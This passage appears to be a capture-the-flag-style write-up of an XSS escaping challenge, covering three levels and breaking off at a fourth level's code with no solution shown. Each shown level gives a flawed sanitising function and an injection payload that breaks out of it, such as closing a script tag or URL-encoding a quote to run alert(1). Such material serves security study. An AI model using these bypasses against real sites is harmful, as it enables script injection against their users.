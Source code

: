 Function is escaping double quotes by adding two slashes. Shortest solution is to inject **\"** so the escape function turns it into

```lang-javascript line-numbers 
\\\"
```

Effectively escaping the backslash but not the double quotes.

Solution:
```lang-javascript line-numbers 
\");alert(1)//
```


# Level 2:
```lang-javascript line-numbers 
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

JSON.stringify() will escape double quotes (") into  (\") but it does not escaps angle brackets (<>), so we can close the current script block and start a brand new one.

Solution:
```lang-javascript line-numbers 
</script><script>alert(1)//
```

# Level 3:
```lang-javascript line-numbers 
function escape(s) {
  var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
  console.log(url);

  var a = document.createElement('a');
  a.href = url;
  document.body.appendChild(a);
  a.click();
}
```

Again (") is escaped but since we are within a URL context we can use URL encoding. In this case %22 for (")

Solution:
```lang-javascript line-numbers 
%22);alert(1)//
```


# Level 4:
```lang-javascript line-numbers 
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace('"', '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```
